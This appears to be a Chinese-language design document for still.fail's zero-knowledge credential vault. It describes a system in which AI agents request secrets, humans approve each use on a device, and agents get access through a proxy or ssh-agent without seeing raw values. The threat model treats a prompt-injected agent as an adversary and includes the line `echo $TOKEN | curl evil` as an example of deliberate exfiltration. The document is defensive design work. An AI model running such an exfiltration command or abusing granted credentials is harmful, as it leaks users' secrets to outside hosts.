

# 密钥库（设计稿）

> 状态：第 0–2 期在做（分支 vault）；个人库为默认、先不接 1Password/Bitwarden、agent 写入要批准（2026-10-17 用户定）。chat EMBER/1792192607.305000（2026-10-17：「能做一个基于 still.fail 基础设施的 1password 吗」）。

## 要解决的事

现在 agent 用凭据的方式：

- Slack token 写在 station 的 `config.json` 里，agent 一 `cat` 就进了上下文（全局记忆里专门记过别 cat 它）。
- `gh`、npm、云厂商的 key 散在各台机器的家目录里，谁用了、什么时候用的，没有记录。
- API key 类 profile 靠「分享」（`docs/station-share.md` 的 `key`）在 station 之间明文复制，每台都存一份。
- 发出去的快照靠 `station/src/publish/redact.ts` 按长相猜哪些是密钥，猜不到的就漏了。

目标是一个**零知识**的密钥库：明文只在人的 app 里出现，station 和 cloud 只存密文。先做 agent 用密钥（申请 → 人在手机上批准 → 只交给这一次使用），再做人用的密码库和自动填充。

## 结论先说

| | 做法 |
|---|---|
| 谁信谁 | 只信 workspace 锁（`docs/workspace-lock.md`）里签过的 app 设备。没开锁的 workspace 不能用密钥库：不开锁，cloud 就能往名单里塞自己的设备，让别人把密钥包给它 |
| 密文放哪 | station 的 `stillfail.db`，走现有的同步进各设备的 core 缓存。cloud 不存 |
| 明文在哪 | 只在 app（桌面、安卓）解锁后的内存里。网页版能看到条目名，解不开内容（页面代码是 cloud 发的，和锁的规定一样） |
| agent 怎么用 | 默认根本拿不到原值：HTTP 的密钥由本机代理按域名填进请求，SSH 钥匙只给 ssh-agent 签名。实在要原值才走「注入单个进程的环境变量」，这种情况输出按原值逐字遮掉 |
| 先做什么 | 第一期只做 agent 用的密钥（token、API key、SSH 钥匙），人用的密码和自动填充放到后面 |

## 防谁

| 对手 | 能做到的 | 做不到的 |
|---|---|---|
| cloud 被攻破 | 扣着不转发，让人用不了 | 读密文、加自己的设备（锁不让）、伪造批准 |
| 中继 | 看到流量大小 | 读内容（iroh 端到端） |
| station 被攻破，或 agent 被提示注入 | 发起申请（人会看到申请理由、命令和目标域名）；用已批准、还没过期的授权 | 读库里任何一条的明文；把代理模式的密钥拿出来；用没批准的条目 |
| 丢了手机 | 拿到密文和被系统钥匙串锁着的设备私钥 | 不过生物识别就解不开；在锁里删掉这台设备后，它拿不到之后加进来的条目，原有的库要换钥匙（见「移除」） |
| 手机系统本身被攻破 | 全部 | — 不防（1Password 也不防） |

要说清楚的一点：agent 和 station 是**同一个系统用户**。所以「注入环境变量」只防不小心泄漏（打印、写进 transcript、提交进仓库），防不住存心要拿的 agent：它能在命令里 `echo $TOKEN | curl evil`。真正防得住的是代理和 ssh-agent 两种方式，所以它们是默认。要彻底隔开，得让 agent 换一个系统用户运行，这是另一件事，不在这里做。

## 一个库：加锁和不加锁（2026-10-17 用户定）

chat EMBER/1792240320.234000。凭据都放在「密钥」这一个库里；库分加锁和不加锁，跟着 workspace 的安全模式走：

| | 不加锁（没开安全模式） | 加锁（开了安全模式） |
|---|---|---|
| 存在哪 | station 上明文（`vault_plain` 表，`station/src/vault/plain.ts`），只走 station 之间的加密连接，cloud 看不到 | 本文其余部分：只有自己的设备解得开 |
| 适合放 | 订阅、模型 API Key（station 本来就要直接用）；其它密钥能放，但每条标「未加密」并引导去开安全模式 | 全部 |
| agent 用 | 同样的 `secret_use` → 卡片 → 批准 → `secret_run`；条目的主人在任一客户端点批准（不用指纹，没东西要解封），值由 station 自己读出 | 照旧：app 解封、签名后封给 keeper |

- **不加锁也不加密**：用 station 自己保管的钥匙加密，agent 和 station 是同一个系统用户，钥匙它照样读得到；加密成只有设备解得开，没开安全模式时设备名单由 cloud 说了算，等于半个安全模式。所以不加锁就是明文，防的只是值不出现在 agent 常读的文件里（`config.json`），界面不把它说成安全。
- **Profile 不搬**：订阅登录和模型 key 仍在 Profile 原来的地方（config.json、profile home），「密钥」页把它们列在最前面、链到 Profile 页；Profile 页照旧。加锁后它们也不进加密库：station 要能随时刷新订阅、用 key 跑模型。
- **开安全模式后**：明文库不再收新条目（`PUT vault/plain` 只收删除，`vault_locked`），也不再交给 agent；页面显示「N 条密钥尚未加密」，用户点「加密」（`vault.migrate`）由 app 读出每条、写进自己的加密库、再删掉明文。
- **接口**：station `GET/PUT vault/plain`、`GET vault/plain/item?id=`、`POST vault/plain/grants|denials`（`{request, scope}` / `{request}`，按 credential 的 email 认主人），`GET vault/uses?vault=`（加锁库或 `plain` 的使用记录：已批准或拒绝的申请，带对话标题）；`GET vault/requests` 不再要求锁。事件 `vault-plain`（条目，不含值）。core 把明文库当成 id 为 `plain` 的一个库：`vaults` 带 `plain: true`（或加锁后的 `plainLeft`），`vaultItems`/`vault.*` 照常用，新 topic `vaultUses {workspace, vault, item}`，条目带 `lastUse`。
- **还没定**：关掉安全模式时，加密库里的条目要不要由 app 解开、写回明文库（现在关掉后加密库就读不到了）。

## 钥匙

```
设备箱钥匙（X25519，每台 app 设备一把，私钥在系统钥匙串里，要生物识别才能用）
  └─ 包着 → 库钥匙（每个库一把，XChaCha20-Poly1305 的 32 字节）
               └─ 加密 → 每个条目
恢复码（打印出来的 24 个词）
  └─ 包着 → 每个库钥匙（一份）
```

- **设备箱钥匙**：不改锁。每台 app 设备给自己的箱钥匙出一张「箱钥匙证书」，用锁里自己的 `sign_key` 签名，跟着库一起存（格式见「实现约定」）。验证的人拿锁里这台设备的 `sign_key` 验，所以 station 和 cloud 塞不进自己的箱钥匙。网页版设备没有 `sign_key`，也就没有箱钥匙。
- **存放**：安卓放 Android Keystore（有 StrongBox 就用），要求生物识别或屏幕锁解锁；macOS 放钥匙串，用 Touch ID 解锁；Windows 用 DPAPI，Linux 用 Secret Service（libsecret）。现在锁的签名钥匙（`lock-signer`）是 app 数据目录里的普通文件，`workspace-lock.md` 的「还没做」里已经记着要挪进钥匙串，这件事和箱钥匙一起做。
- **不用主密码**：1Password 用「主密码 + Secret Key」，因为它的新设备要能自己登录、不依赖旧设备。still.fail 加新设备本来就要旧设备核对短码（`lock.confirm`），确认的同时把库钥匙包给新设备的箱钥匙就行，不用多记一个密码。所有设备都丢了，就用恢复码。
- **一人一个自己的库，新设备拿钥匙不另建**（2026-10-26，chat EMBER/1792949811.536000：一个人因此有了三个库，两个空的）：`setup` 发完证书后重读各 station，这个人一个自己的库都没有时才顺手建「个人」库（回 `made`），界面不再自己调 `create`。之后设置的设备没有那个库的钥匙，由已有钥匙的设备给：owner 的设备只要手上有库钥匙（解开或还在 5 分钟里），就把钥匙封给成员新设置、还没有钥匙的设备，签一个新版本（`#give`），不用人去点；「设备」一栏的「授权新设备」只用在那之后还没解开过的时候。没钥匙的设备批准存入时，这个人已经有自己的库就回 `vault_no_key`（在问指纹之前），不另建一个。
- **passkey**：passkey 有 PRF 扩展时，可以多包一份库钥匙给 PRF 派生出的钥匙，用来在新设备上恢复。先不做，等锁的 passkey 签名做完再加。
- **算法**：只用 Node 自带 `node:crypto` 也有的几样（station 不加依赖，core 用 `@noble/*`）：X25519、HKDF-SHA256、ChaCha20-Poly1305（96 位随机 nonce）、Ed25519/P-256 验签。附加数据里写清 `ws/vault/item/version/epoch`，一条密文挪不到别处冒充。

## 库和条目

- **库（vault）**：`{id, owner, name, members[], keys[], recovery, epoch}`。`members` 是能用这个库的成员（锁里的 `sub`）；`keys` 给这些成员的每台 app 设备各包一份。每次加人、删人、删设备，`epoch` 加一。
- **库元数据也要签**：每一版都由库 owner 的一台锁里设备签名，station 不认没签名的，客户端也不信，否则 station 被攻破后就能把自己塞进 `members`。owner 定了不变，所以验证不用翻历史。这一期只有 owner 管成员；成员自己加新设备，由 owner 的任一台设备在确认锁的同时补签。
- **条目（item）**：`{id, vault, version, epoch, ct, listing?}`。密文里是 `{kind, name, fields, domains, notes}`。`kind` 有 `token`、`ssh_key`、`login`、`file`（见「文件」）。名字在密文里，station 不知道存的是什么；只有打开「给 agent 用」的条目带一个明文的 `listing`（名字、允许的方式和域名），agent 要靠它知道有什么能申请。`listing` 由写入的设备签名，station 改不了。
- **删除库**（2026-10-26 用户定，chat EMBER/1792949811.536000）：owner 在「密钥」页「库」一栏某个库的 ⋯ 里删除，先确认（库里有条目时再过一次系统验证）。core 签一个新版本：`deleted: true`、`epoch` 加一、`keys: []`、不带 `recovery`，谁都解不开了，`vault.delete {vault}`。station 照样存这一版（旧 station 也收：它只是又一个 seq+1 的版本），新 station 存它时把这个库的条目一起删掉、不再收这个库的条目；不删这一版本身，这样还拿着旧版本的 station 会被 core 补上这一版，而不是把旧版本补回来。新 station 不收把已删除的库改回来的版本。core 和各页面不再显示它，`spread` 不再搬它的条目；它的条目 epoch 对不上，旧 station 也不会再列给 agent。已批准的授权照样到期才失效（和删条目一样）。
- **移除**：删人或删设备之后，生成新的库钥匙，`epoch` 加一。之后新写的条目都用新钥匙加密；旧条目下次被打开时由那台设备顺手重新加密（被删的人以前看过的值，本来就该去各服务那边换掉，界面上会提示）。

## 存储和同步

- **station**：新表 `vaults`、`vault_items`、`vault_boxes`（`CREATE TABLE IF NOT EXISTS`，`station/src/vault/store.ts`），只存密文和签名，每个库、条目、设备只留最新一版。一个库写在一台 station 上（建库时选，默认 workspace 里第一台能放库的，叫它的 host），**workspace 里每台 station 都存一份副本**，这样哪台 station 上的 agent 都能申请它的密钥（库是账号的，不是某台 station 的）。副本由成员的设备带过去：core 读各台 station 时记下每台存到哪一版，缺的或旧的就用 `PUT vault/vaults?copy=1`、`PUT vault/items?copy=1` 补上最新一版；写库、写条目之后也补一遍。副本照样逐条验签、验锁，只是版本号不要求刚好 +1，只收比手上新的（不比手上新的原样回手上那版，不回退）。写仍然只写 host（有冲突在 host 上判），host 不再有这个库时换一台有的。只存密文和签名，所以多存几份不多泄露什么；值仍然只在批准时封给提出申请的那台 station 的 keeper。没更新的旧 station 只认 +1，补不上的就留着它手上的那版。host 离线时库读不到新的（core 里缓存的照样显示），写不进去。
- **core**：两个新 topic，`vaults` 和 `vaultItems`（`client/core-ts/src/views/vault.ts`），按 id 增量发给界面；station 给的库、条目、证书、申请存进 core 的 db（workspace 的 `vault`、`vaultItems:<库>` 记录），station 每次重新读（事件流重开）时一起读，之后靠事件。解开的库钥匙只放在内存里，最后一次解开后 5 分钟清掉（`vault.lock` 立刻清）；明文不缓存。
- **冲突**：条目按 `version` 写入，station 只收恰好大一的，不是就回 `vault_conflict`（带上 station 手上的那版）；core 重新读这个库的条目，调用以 `vault_conflict` 失败，由人决定再写一次。「两份都留下」以后再做。
- **cloud**：什么都不加。

## agent 用密钥

### 流程



- **keeper**：station 里管授权、做代理、做 ssh-agent 的那一块（`station/src/vault/`）。值只在 station 进程的内存里，不写盘，不进日志；加锁库的授权 station 重启就忘（agent 重新申请）；还在等批准的申请不忘：临时私钥随旧进程没了，新进程在确定不会有交接带过来之后给它换一把新的（`Secrets.reboxed`），申请连同新 `box` 重新推送给库成员，人照样能批准、agent 照样收到结果（箱子里没有秘密，只有批准后封进来的那份）；app 手上还是旧 `box` 时批准被拒，core 重读申请、封给新 `box` 再发一次。更新时的交接（launcher 在旧进程旁起新进程）不算重启：旧进程把 keeper 手上的授权、还在等批准的申请的临时私钥、等存入的值经 launcher 的控制管道交给新进程（`StationParts.carry`，内存到内存，不写盘、不进日志），agent 不用重新申请。旧 launcher（更新只换 Node，launcher 要等机器或服务重启才换）不认这一行、会把它写进日志，所以只有带 `--launcher-carries` 起的 Node 才交。不加锁库的授权把除值以外的部分写进 `vault_grants` 表，重启后从明文库重新读值、照旧可用（值本来就在 station 盘上，多写的只是哪个 chat、哪个条目、什么时候到期）。chat 归档或删除时，它的授权一起作废。没有拆成单独的进程：agent 和 station 是同一个系统用户，拆出去的进程和 station 进程对 agent 来说一样读不到（都要调试权限），多一个进程只多一份打包和交接的麻烦。
- **工具**：`secret_list`（agent 能看到的条目名和允许的方式，不含值）和 `secret_use`。申请卡片用现有的卡片和待处理，申请发给条目所在库的成员；`card.assignee` 是库的 owner，或者是这个 chat 的发起人，只要他是库成员。
- **批准的范围**：「仅本次」「本对话 1 小时内」「本对话直到归档」三档（`once`/`hour`/`chat`）。每个人在「密钥」页设一个「默认最长授权」（加锁库是库本身的 `lasts`，owner 签名、随库复制到各 station；明文库是 station 上每人一条，`PUT vault/plain/lasts {lasts, at}` 发给每个存着明文库的 station，以最晚的 `at` 为准），默认 `chat`；条目可以「跟随默认」（listing 不带 `lasts`，新条目都是这样）或设自己的一档（listing 的 `lasts`）。卡片只列到生效的那一档，推荐其中最长的一档；station 和 core 都拒绝超出的批准。（2026-10-22 pengxiao 定：一小时不够用，chat EMBER/1792660346.250000。）

### 三种用法

| 方式 | 怎么做 | agent 看得到原值吗 | 适合 |
|---|---|---|---|
| 代理（默认） | `secret_run {grant, command: "gh pr list"}`：只给这一个命令设 `HTTPS_PROXY`（keeper 的本机代理，带这次授权的代理口令）和信任 keeper CA 的变量（`NODE_EXTRA_CA_CERTS`、`SSL_CERT_FILE`、`REQUESTS_CA_BUNDLE`、`GIT_SSL_CAINFO`、`CURL_CA_BUNDLE`），`GH_TOKEN` 的值是占位符 `stillfail-secret:<授权号>`。请求发往条目允许的域名时，代理把请求头里的占位符换成原值；占位符发往别的域名就拒绝。不在 agent 的全局环境里设代理：keeper 出问题不能连累 agent 自己的 API 请求 | 看不到 | API key、Bearer token、GitHub token（`gh` 走 HTTPS） |
| ssh-agent | `secret_run {grant, command: "git push"}`：给这个命令一个 keeper 的 `SSH_AUTH_SOCK`，只列出这次授权的那把钥匙，每次签名检查授权 | 看不到，私钥不离开 keeper | git over ssh、登其他机器 |
| 环境变量 | `secret_run {grant, command}`：station 用这个值作为环境变量启动这一个进程，stdout/stderr 经过 station 返回给 agent，原值和它的 base64、URL 编码写法逐字换成 `[已隐藏]` | 子进程看得到；agent 只能从输出里拿到，而输出已经遮掉了 | 只认环境变量、不走 HTTP 的工具（数据库客户端之类） |
| 文件 | `secret_run {grant, command}`：station 把文件写进一个只有本用户能读的临时目录（目录 0700、文件 0600，用条目的文件名），路径放进 `STILLFAIL_SECRET` 和条目的变量（`KUBECONFIG`），命令结束就删掉；输出里文件的全文和它的 base64 换成 `[已隐藏]` | 子进程看得到，和环境变量一样 | 只认文件路径的工具：kubeconfig、服务账号 JSON、证书 |

- 登录条目的账号不算机密（存的卡片上本来就显示）：授权时告诉 agent，`secret_list` 的授权里带 `username`，每种方式的命令都拿到 `STILLFAIL_USERNAME`，输出里不遮。没有它，agent 只拿到密码，人在卡片上填的账号用不上，得在聊天里再问一次。
- 环境变量方式的输出遮挡是按**确切的值**遮，比 `redact.ts` 按长相猜靠谱得多。但它防不住命令自己把值发出去，所以界面上把这一档标成「agent 能拿到」，条目默认不开这一档。
- 代理只拦 HTTPS，并且只换占位符：agent 发出的其他请求原样通过，不影响它干别的事。

### 记录

每次申请、批准、拒绝、使用（时间、chat、方式、目标域名或命令，不含值）都写进 station 的 `vault_audit`，并作为一条系统消息显示在那个 chat 里。在库的页面能按条目查。记录按库同步给成员的设备（第一期只存在 station 上，同步下来放到界面那一步做）。

## 文件（2026-10-29）

chat EMBER/1793263359.091000（「我们密钥库缺一个文件类型的密钥」）。有的凭据是整份文件：kubeconfig、GCP 服务账号的 JSON key、`.p12` 证书、`.env`。

- **条目**：`kind: file`，字段 `content`（文件的字节，标准 base64，最大 64 KB 字节）和 `filename`（不能带路径）。文本、二进制都存原字节。加锁、不加锁的库一样存；station（`plain.ts fileOk`）和 core（`views/vault.ts fileProblem`）都查大小和格式。
- **给 agent**：只有一种方式 `file`（listing 的 `modes` 只能是 `["file"]`，别的类型也不能用 `file`），见上表。条目的 `env` 是放路径的变量名。
- **存入**：`secret_save {kind: "file", path}`（`path` 等于 `command: cat -- <path>`，`station` 时在那台读），`filename` 默认是路径的文件名；`command` 时取命令输出的原字节（`capture` 的 `raw`；旧 station 没有，回「先更新那台」）；`value` 当文本存。都不给就是人来选：卡片上一个「选择文件」按钮，批准时 `vault.approve {request, typed: {secret: <base64>, filename}}`，agent 给了 `filename` 就用 agent 的。
- **界面**：编辑器里「文件」一类，选文件后显示「文件名 · 大小」和「更换文件」；条目页显示文件名，内容是 UTF-8 文本时作为可显示/复制的秘密，否则显示「二进制 · 大小」。
- **兼容**：旧 station 不认 `file`（listing 校验不过，副本补不上；明文库 `PUT` 被拒），旧 core 显示时类型为空。旧 station 收到 `vault.run` 的 `mode: file` 会拒绝，不会把 base64 当环境变量用。

## 登录态（2026-10-31 用户定）

chat EMBER/1793439516.811000。station 浏览器里每个 chat 一个只在内存里的环境（docs/remote-screens.md「A chat's own environment」），登录态只存在密钥库里，不落 station 硬盘：

- **条目**：kind `browser`，字段 `cookies`（这几个网站的 cookie，DevTools `Storage.setCookies` 收的样子，JSON；有通行密钥时是 `{cookies, passkeys}`，passkeys 是这几个网站的通行密钥，DevTools `WebAuthn.Credential` 的样子，含私钥，2026-11-01 用户定，docs/remote-screens.md「Passkeys of the vault」），listing 的 `hosts` 是网站（`github.com` 连同子域名，不写 `*.`），方式只有 `browser`、也只有登录态是这种方式（`browserListingOk`）。
- **存入**：`secret_save {kind: "browser", hosts}` 不收 value、command、path：station 自己从这个 chat 的环境（或 `browser: "station"`，从 station 自己的 profile，迁移以前登录过的）读出这几个网站的 cookie，agent 看不到；一个都没有就拒绝，让人先在远程画面里登录。卡片和别的存入一样，存进去之后这个 chat 直接拿到授权。
- **使用**：`secret_use` 一个登录态（方式 `browser`），卡片写「放进这个对话的浏览器（限 网站，到期取出）」；批准后 station 把 cookie 放进这个 chat 的环境（只放这些网站的），授权到期取出，`secret_run` 不收它。授权的 `hosts` 必须写上网站（老 app 批准时不写，station 拒收，要升级）。
- **写回**：到期取出时把那一刻的 cookie 交回密钥库（网站中途会换新的）：不加锁的库 station 直接写成条目的新版本。加锁的库 station 解不开也签不了：新 cookie 封给这个库各成员已设置的设备（`saveContext`，id `n_…`），存在 `vault_renewals`（每条只留最新一份），跟着这一条下一次的申请走（`Request.renewal`）；批准那次 app 本来就要解开设备箱钥匙（同一次指纹），顺手解开它、写成条目的新版本，授权给出去的也是新的。授权里的 cookie 和它对得上（station 只存它的摘要比对），station 才删掉这份；老 app 批准时不认它，就留给下一次。
- **环境重建**：Chrome 重启后环境没了，chat 再要浏览器时新建一个，还在授权期内的登录态重新放进去（`signInAgain`）。

### 从卡片登录（2026-11-01 用户定）

chat EMBER/1793439516.811000（「agent 那边只剩一个动作」）。agent 要在自己 chat 的浏览器里登录某个网站，只调一个工具 `sign_in {site, reason}`（`station/src/vault/signin.ts`）：

- **密钥库里有这个网站的登录态**：照 `secret_use`（方式 `browser`）申请，批准后放进浏览器。已经授权着就直接说。授权了网站还要登录（cookie 过期）：网站支持通行密钥就点通行密钥登录（浏览器自己签），否则 `again: true` 重新走下面这条。
- **没有**：agent 先在 chat 的浏览器里打开网站的登录页（station 检查那个标签页上确有登录框，否则拒绝），station 在 chat 里发一张卡片（`card.signin {id, site, reason, screen}`，`screen` 是那个标签页的 `browser:<targetId>`），给 chat 的发起人。Slack/飞书里没有卡片，文字里给标签页的画面链接。
- **卡片上**：「用 1Password 登录」（电脑上用 `op`，会再取一次性验证码 `--otp`；安卓用系统自动填充服务，和远程画面里的「填入」同一套，docs/remote-screens.md「Filling a login」）→ 账号密码（和验证码）经 `signin.fill {id, login, keep}` 交给 station（`login` 是对象，core 的 `doing` 不留副本）→ station 另开一条 DevTools 连接，在页面自己的隔离环境里找登录框（账号、密码、验证码；一位一格的验证码按格输入），用 `Input.insertText` 当作键入，回车提交，页面没动就点它的提交按钮，一步步走完（`browser/signin-form.ts drive`）。只在标签页还在那个网站时输入。输入的值只在 station 内存里，最后一次使用 15 分钟后丢掉，从不写日志、不写盘。
- **中途**：页面要验证码而没给 → 卡片 `code`，在卡片上输入；人机验证、网页不接受、页面不动、跑到别的网站 → 卡片 `person`，按钮打开那个标签页的画面，人处理完点「我已登录」（`signin.self {done: true}`）。人也可以一开始就选「在画面中登录」。
- **结束**：页面离开登录框（或人说登好了）→ 卡片 `left`，告诉 agent 去看；agent 看过确认登录了调 `sign_in {site, done: true}`，没登好调 `stuck: "还要做什么"`（卡片转给人）。确认后若卡片上选了「登录后存入密钥库」（默认），station 照 `secret_save {kind: browser, hosts: [site]}` 申请存入，但**不发存入卡片**（`quiet`），申请号写在登录卡片上（`outcome.save`），登录的那台设备直接 `vault.approve` 批准；存入结果（`outcome.kept`）出来后收回卡片。密钥库没开的人照常发存入卡片（要先开启）。
- **通行密钥**：登录后网站支持通行密钥的，agent 在网站设置里加一把（chat 浏览器自带的验证器直接建好），再 `done`：存进密钥库的登录态带上它，以后 cookie 过期由浏览器自己用通行密钥登录，不用找人。
- 记录在 station 的 `signin_asks` 表（不含任何输入的值）；一天没人处理就过期，chat 归档时结束。


## agent 存入（2026-10-24 用户定）

chat EMBER/1792782824.926000（「当然是 agent 申请添加我来审批」）。agent 手上有了以后还要用的凭据（用 `op`/`bw` 读出的密码、人给的 token、自己建的 key），由 agent 申请存进库，人在卡片上批准，不让人自己去 app 里填。

- **工具** `secret_save {name, kind, reason, command | value | 都不给, username?, public_key?, modes?, hosts?, env?}`：存给这个 chat 的发起人。值优先用 `command` 给：station 在 session 的工作目录里 `sh -c` 跑它，标准输出（去掉末尾一个换行，最多 64 KB）就是值，agent 看不到；失败时只回 stderr，且把输出逐字遮掉。`value` 只给 agent 本来就拿着的值。`modes` 默认：有 `hosts` 用代理，SSH 钥匙用 ssh，其余用环境变量。
- **申请**：还是 `vault_requests` 里的一条 Request，多 `save`（条目的 listing 加上不是秘密的 `username`、`public_key`）和 `owner`（发起人的 email，由他决定）；`item` 是 station 先分配好的条目 id，`vault` 是打算放进的库：
  - 加锁：发起人自己的、他某台已设置设备有钥匙的库（自己是 owner 的优先），没有就空着。值用 `seal` 封给他每台已设置设备的箱钥匙（锁里验过的证书），上下文 `stillfail-vault-save/1\0<ws>\0<request>`，存在 `sealed: [{device, box, secret}]` 里；station 不存原值。
  - 不加锁：`vault` 是 `plain`。
  - 两种都把原值留在 station 内存里直到有结果（重启就忘，agent 重新申请）：不加锁的批准时由 station 写进明文库；加锁的在他之后才设置的设备发布箱钥匙证书时（`PUT vault/boxes`）补封给那台设备，申请重新推送。
- **卡片**：options 卡片「存入密钥库 / 拒绝」，assignee 是发起人，`vault` 字段多 `save: {kind, username?}`；客户端据此画成「想存入」而不是「想使用」，批准行是「存入 / 拒绝」。他在这个 workspace 里还没开启密钥库（加锁但这台设备没设置、或者一个库都没有）时，卡片上是「开启密钥库」，进「密钥」页走原来的开启流程（抄恢复码），回来再存入。
- **批准**：`vault.approve {request}`（scope 不用）。加锁：用这台设备的箱钥匙打开给它的那份（过一次生物识别），选库（申请指定的、这台设备有钥匙的优先，其次自己的；自己的库都没有才建一个「个人」库，有但这台设备还没钥匙就回 `vault_no_key`），用请求里的 `item` 写第 0 版（已经写过就不再写），把副本送到提出申请的 station，再 `POST vault/saves {request, vault}`；station 核对那个库里确有这个条目、名字对得上，记为 granted。不加锁：`POST vault/plain/saves {request}`，station 用内存里的值写进明文库、推 `vault-plain`。拒绝和别的申请一样走 `vault/denials`、`vault/plain/denials`（存入的申请由发起人决定，不看库成员）。
- **人来填**（2026-10-26，chat EMBER/1792983584.391000：「agent 应该要能够主动发一张卡片来要求用户把一些东西填进去，然后会存到密钥库」）：agent 要的凭据只有人拿得到（只能登录控制台才能建的 API key），`secret_save` 不给 `value` 也不给 `command`，`save` 多 `typed: true`，station 手上没有值、什么都不封（`sealed` 为空，`#unsaved` 不记，重启后申请照样有效）。卡片标题照旧（存入 Token「…」），按钮上面多一个输入框：Token「粘贴 Token」、密码「密码」（agent 没给 `username` 时上面再加「用户名」）、SSH 私钥多行「粘贴私钥」；框里没字时「存入」按不了，回车等于「存入」。批准走 `vault.approve {request, typed: {secret, username?}}`（对象，不会被 `doing` 记下）：core 按条目编辑器的写法变成字段（Token 去首尾空白，私钥末尾补换行，密码原样）。加锁：这台设备自己写进库（读一次箱钥匙解开库钥匙，没有库就建「个人」），其余和上面一样（`POST vault/saves` 带给这个对话的授权）；明文从头到尾只在这台设备上。不加锁：`POST vault/plain/saves {request, fields}`，station 照条目规则查字段、秘密那一项不能空、合起来不超过 64 KB。旧 app 批准这种申请会报错（加锁「没封给这台设备」，不加锁要求更新 app），不会存进空值。在 Slack/飞书里卡片是字，说「请在 still.fail 客户端的「密钥」中填写并存入」，到「密钥」页的待批准里填。
- **之后**：存进去的条目和人自己加的一样，agent 用时照样 `secret_use` → 卡片 → `secret_run`。存入的申请不算条目的使用记录（`uses` 里不列）。
- **主动提**：内置 skill `stillfail-vault`，agent 的指令里也有一句：要读密码管理器、人贴了凭据、自己建了 key、写的脚本要登录某处时，先提议存进库再用；他的库没开启时照样调 `secret_save`，卡片会请他开启。`secret_list` 会说他的库开没开。

## 在另一台 station 上用（2026-10-24）

有些凭据只在别的 station 上用得上：路由器只有家里的 Studio 连得到，1Password 只在 Studio 的桌面 app 里登录着。`secret_run` 原来只在 agent 自己那台 station 上跑，这些就用不上。

- `secret_use {…, station}`：这次授权的命令在那台 station 上跑。申请里记 `runOn: {id, name}`，卡片多一行「运行在：Studio」（`vault.station`）；批准的人知道值会送到哪台机器。
- `secret_run {grant, command, station?}`：授权带 `runOn` 的，命令到那台跑，在这个 chat 在那台的目录里（和 station_task 同一个，`remote/sessions/<id>/work`，`cwd` 是它下面的路径）；`station` 只能不写或写同一台，写别的就拒绝。没带 `runOn` 的授权不能拿去别处跑。
- `secret_save {…, command, station}`：在那台跑 `command` 取值（比如 Studio 上的 `op read`），值回到 agent 所在的 station 再封给人的设备；卡片的「来源」写在哪台跑的。
- **传法**：走 station 之间的连接（iroh，端到端加密），请求 `vault.run` / `vault.capture`，带 `secret`（这条的 fields）、方式、域名、命令；对方立刻回 `{started: true}`，跑完再反过来问一次 `vault.done {id, result}`（连接上一次请求只等 30 秒，命令可能跑几分钟）。对方用自己的代理、ssh-agent 或环境变量跑，输出照样按原值遮掉；值只在那条命令跑着的时候在对方进程里，不写盘。
- **信任**：对方是同一个 workspace 的 station，本来就能替这个 chat 跑任意命令（station_task），多给的只是这一次的值，卡片上写明了是哪台。旧 station 不认 `vault.*`，回错，agent 被告知要先更新那台。

## 人用的密码库（第二期以后）

- app 里加一个「密钥」页：库、条目、搜索、复制（30 秒后清剪贴板）、生成密码、TOTP。网页版只列名字。
- 安卓：实现 `AutofillService` 填密码，再实现 Credential Manager 的 `CredentialProviderService`，把 passkey 也存进来。
- 桌面浏览器：浏览器扩展通过 native messaging 和桌面 app 通信，解密在 app 里做。
- 导入：先支持 1Password（`.1pux`）、Bitwarden（JSON）、浏览器（CSV）。
- 不兼容 Bitwarden 的协议和官方客户端，原因见下一节。

## 调研（2026-10-17）

### 兼容 Bitwarden：不做

不兼容 Bitwarden 协议，用自己的客户端和协议。加密的分层（设备钥匙包库钥匙、库钥匙加密条目）和 Bitwarden、1Password 的思路一样，但不追它的线上格式：

- 官方客户端只保证能连 Bitwarden 自己的服务器。2026.7.0 版客户端连 Vaultwarden 1.36 时库显示为空，要升级到 1.37 才好。Bitwarden 把这个问题关成了「不打算修」（[clients#22013](https://github.com/bitwarden/clients/issues/22013)、[vaultwarden#7529](https://github.com/dani-garcia/vaultwarden/discussions/7529)）。客户端会自动更新，兼容的服务器只能一直追。它的加密格式也还在变（v2 账户加密、COSE、签名公钥）。
- 官方客户端只能连 HTTPS 地址：安卓版禁止明文连接，CLI 从 2025.11 起拒绝 http 地址。我们的 station 只能经 iroh 连到，要兼容就得在手机上跑本地 TLS 代理或者做 VPN，体验差，还会被系统的省电机制杀掉。
- fork 它的客户端要整个以 GPLv3 开源，要去掉 `/bitwarden_license` 下的代码、换掉品牌，还要一直合并上游的改动，而且照样解决不了 iroh 连接的问题。
- 自己做自动填充的工作量可以接受：Chrome 135（2025-04）起，安卓上的 Chrome 直接支持第三方 AutofillService，一个标准的 AutofillService 就能同时覆盖浏览器和其他 app；passkey 用 Credential Manager 的 `CredentialProviderService`（Android 14+）。浏览器扩展通过 native messaging 连桌面 app，可以绕开 HTTPS 的问题，基础版几周到两个月能做出来。

### 别人给 agent 的做法

| 产品 | 做法 | 在哪批准 |
|---|---|---|
